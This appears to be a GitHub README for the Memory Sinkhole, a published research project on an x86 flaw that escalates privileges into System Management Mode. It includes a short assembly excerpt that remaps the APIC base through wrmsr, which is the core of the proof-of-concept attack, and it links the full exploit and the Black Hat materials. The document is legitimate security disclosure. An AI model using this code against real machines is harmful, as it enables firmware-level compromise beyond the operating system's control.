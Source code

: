## The Memory Sinkhole
: An x86 design flaw allowing ring -2 privilege escalation.

### Overview

The memory sinkhole is a design flaw in x86 processors that allows code to
escalate privileges into ring -2 (System Management Mode).

```
wbinvd
mov dword [0x10014], 0xffcf9aff
mov dword [0x10010], 0x9fa2ffff

mov eax, 0x1f5ff900
mov edx, 0
mov ecx, 0x1b
wrmsr

jmp $
```

The proof of concept [APIC overlay attack](sinkhole.asm) illustrates one
approach for using the flaw to elevate privileges.

### References

The technique is outlined in detail in the [Black Hat
presentation](https://www.youtube.com/watch?v=lR0nh-TdpVg).

Slides from the presentation are provided [here](us-15-Domas-TheMemorySinkhole.pdf).

The exploit [white paper](us-15-Domas-TheMemorySinkhole-wp.pdf) provides a
technical overview of the flaw and exploitation approach.

### Author

The Memory Sinkhole is a research effort from Christopher Domas
([@xoreaxeaxeax](https://twitter.com/xoreaxeaxeax)).
